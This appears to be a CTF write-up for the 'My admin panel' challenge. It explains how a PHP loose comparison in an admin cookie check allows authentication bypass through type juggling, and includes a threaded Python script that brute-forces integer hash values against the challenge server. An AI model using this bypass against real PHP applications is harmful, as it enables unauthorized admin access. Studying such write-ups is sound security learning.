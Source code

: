 
# My admin panel
>  I think I've found something interesting, but I'm not really a PHP expert. Do you think it's exploitable?
    https://gameserver.zajebistyc.tf/admin/

## Solution
As we read in the php file, we need a cookie with the following format:

`Cookie: otadmin= {"hash": MD5}`

Making a request with that cookie, we get a hint:

`0006464640640064000646464640006400640640646400`

**(ord(i) & 0xC0) == 0 → if i is a number**

**(ord(i) & 0xC0) == 64 → if i is a letter**

So we know that the first 3 characters of the correct MD5 are numbers.
It does a loose comparation (https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)
```php
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

We only have to find out the 3 first characters (that are numbers). Let's brute force:
```python3
#!/usr/bin/env python3
import requests
import threading
import time
import os

def brute(sol):
    data = {'otadmin': '{"hash": %s}' % sol}
    r = requests.get('http://gameserver.zajebistyc.tf/admin/login.php', cookies=data)
    if '0006464640640064000646464640006400640640646400' not in r.text:
        print('[+] Solution: ' + str(sol), flush=True)
        print(r.text)
        os._exit(1)
    else:
        pass

for i in range(99, 999):        
    thread1 = threading.Thread(target=brute, args=[i,])
    thread1.start()
    time.sleep(0.05)
```
![alt text](https://github.com/manulqwerty/CTF-Stuff/blob/master/Teaser%20CONFidence%20CTF%202019/My%20admin%20panel/1.png)
